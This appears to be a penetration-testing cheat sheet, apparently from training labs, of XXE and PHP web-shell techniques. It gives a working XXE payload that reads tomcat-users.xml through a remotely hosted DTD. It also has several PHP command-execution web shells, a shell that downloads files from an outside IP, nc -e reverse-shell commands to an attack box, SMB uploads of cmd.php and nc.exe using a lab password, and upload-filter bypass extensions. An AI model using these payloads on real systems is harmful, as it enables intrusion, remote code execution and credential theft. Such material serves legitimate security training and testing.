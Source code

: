         Prevent Parsing (binary data):  <!ENTITY name SYSTEM "URI" NDATA TYPE>
        Prevent Parsing (XML characters in output) using CDATA:
            Host wrapper.dtd locally:  
                <!ENTITY wrapper "%start;%file;%end;">
            Injection:
                <?xml version="1.0"?>
                <!DOCTYPE data [
                <!ENTITY % start "<![CDATA[">
                <!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
                <!ENTITY % end "]]>">
                <!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
                %dtd;
                ]>
                <org.opencrx.kernel.account1.Contact>
                    <lastName>&wrapper;</lastName>
                    <firstName>Tom</firstName>
                </org.opencrx.kernel.account1.Contact> 

## PHP Content Injection:  

	Anywhere to edit and then execute/access a .php file? - Wordpress/Joomla theme file, etc.
		See reverse shells page - pick language based on web page format
			*PHP Advanced Content Inject Reverse Shell
	Troubleshooting:  try URL encoding of characters; if shell is blocked, try common port like 80 or 443
	Test:  <?php phpinfo(); ?>
	ex. <?php echo shell_exec($_GET['cmd']); ?>
		http://127.0.0.1/webshell.php?cmd=id
		http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
	ex. <?php system($_GET["cmd"]); ?>
	ex. <?php passthru($_GET["cmd"]); ?>	
	ex. PHP Non-Interactive Web Shell:
		<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
		Access: <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT
	Injection Test:
		<?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
		<?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
		<?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
		<?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>

## File Upload / Web Shells:  

	General Upload Test:  `davtest -url http://10.10.10.15`
	Look for alternate upload locations: SMB, FTP, etc.
		Example:
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put cmd.php cmd.php'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=whoami
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put nc.exe nc.exe'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.14.3+443
	PHP Web Shell:  ex. https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php
	Small webshells (bypass length restrictions):  <?=`$_GET[1]`?>  ... or just  <?=`ls`;
	Filter Bypass:
		https://book.hacktricks.xyz/pentesting-web/file-upload
		https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
		- Rename:
			Try upload as shell.php.jpg or shell.php%00.jpg or shell.jpg.php
			.php, .pht, .phtml, .php3, .php4, .php5, .inc
			.asp, .aspx
			.pl, .pm, .cgi, .lib
			.jsp, .jspx, .jsw, .jsv, .jspf
			.cfm, .cfml, .cfc, .dbm